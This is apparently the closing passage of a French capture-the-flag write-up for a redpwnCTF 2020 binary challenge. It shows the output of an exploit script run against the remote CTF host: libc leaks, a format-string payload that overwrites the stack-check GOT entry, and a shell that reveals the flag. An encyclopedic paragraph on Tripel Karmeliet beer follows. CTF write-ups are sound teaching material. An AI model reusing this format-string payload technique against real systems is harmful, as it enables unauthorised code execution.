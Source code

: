 ```
```

Victoire, nous avon un shell en local ! Et en remote ?

```
$ python exploit_v2.py REMOTE
[+] Opening connection to 2020.redpwnc.tf on port 31744: Done
[!] stage #1 : leaks.
[*] __stack_chk_fail: 0x601028
[*] payload size : 272
[*] payload : %064x%11$n%01783x%12$hn%13$sBBBBBBBBBBB\x00\x10\x00\x00\x00\x10\x00\x00\x00\x10\x00\x00\x00CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
[*] leak printf: 0x7fcae602ee80
[*] leak libc  : 0x7fcae5fca000
[*] leak system: 0x7fcae6019440
[!] stage #2 : exploitation.
[*] two write to make:
[*] 1. [0x601038] => 64 (0x40)
[*] 2. [0x601039] => 404 (0x194)
[*] Switching to interactive mode
 Hello 000[...]00e63b78c0ZZZZZZZZsh: 1: What: not found
sh: 1: Hello: not found
$ cat flag.txt
flag{t0_k1ll_a_canary_4e47da34}
$ 
[*] Interrupted
```

![](https://media.giphy.com/media/xUA7aQOxkz00lvCAOQ/giphy.gif)

### Tripel Karmeliet

La Tripel Karmeliet ou Triple Carmélite en français est une bière belge du groupe AB-Inbev, lancée en 1996 par la brasserie Bosteels, selon une recette originale de 1679. C'est une bière de fermentation haute, possédant un haut degré d'alcool (8,4 % alc./vol.). Elle est fabriquée à partir de trois céréales : l'orge, le froment et l'avoine. 

La Tripel Karmeliet est fabriquée à la brasserie Bosteels à Buggenhout (qui produit aussi la Kwak et la Deus) en Flandre-Orientale. Son étiquette arbore le logo des Belgian Family Brewers.

Son élaboration est inspirée d'une recette des frères carmes de Termonde qui, suivant un recueil d'histoire locale, développaient un tel produit au XVIIe siècle1, d'où son nom de Tripel Karmeliet2. Conçue selon les principes de fabrication du pain multi-céréales2, sa recette prescrit l’utilisation de trois sortes de céréales, le froment, l’avoine et l’orge2, qui sont chacune brassée à la fois crue et maltée1. Le mot « Tripel » fait référence au style de bière triple2, un type de bière spéciale contenant plus de malt et donc un plus fort degré alcoolique. Bière de fermentation haute, elle développe en effet haut d'alcool de 8,4 %3. 
